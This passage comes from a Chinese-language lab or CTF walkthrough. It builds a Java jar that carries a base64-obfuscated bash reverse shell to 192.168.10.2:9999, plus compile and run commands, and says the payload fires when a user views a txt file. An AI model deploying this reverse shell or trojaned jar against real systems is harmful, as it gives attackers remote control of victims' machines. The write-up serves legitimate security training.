 `https://forum.ywhack.com/shell.php`

我这里使用的是，对`bash`反弹进行`base64`编码的

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
```

这里的命令是在前面的基础上进行修改，截个图吧，后面编译就不截图了

![](./pic-3/27.jpg)

然后进行编译等操作，大概过程如下面代码所呈现的

```shell
#删除alien文件夹，编译后文件的文件夹
rm -rf alien

#编译java文件至alien文件夹，也就是包
javac -d . $(find . -name "*.java")	

#查看当前目录下是否已经编译成功，并有alien文件夹
ls
#使用jar生成一个test1.jar包
jar cvfm test2.jar mainfest.txt alien

#运行生成的test2.jar包
java -jar test2.jar
```

先在`kali`中开启监听

然后使用`alienum@exogenesis`登录后点击`view`后，随便点击其中的一个`txt`文件，都会触发反弹

![](./pic-3/28.jpg)
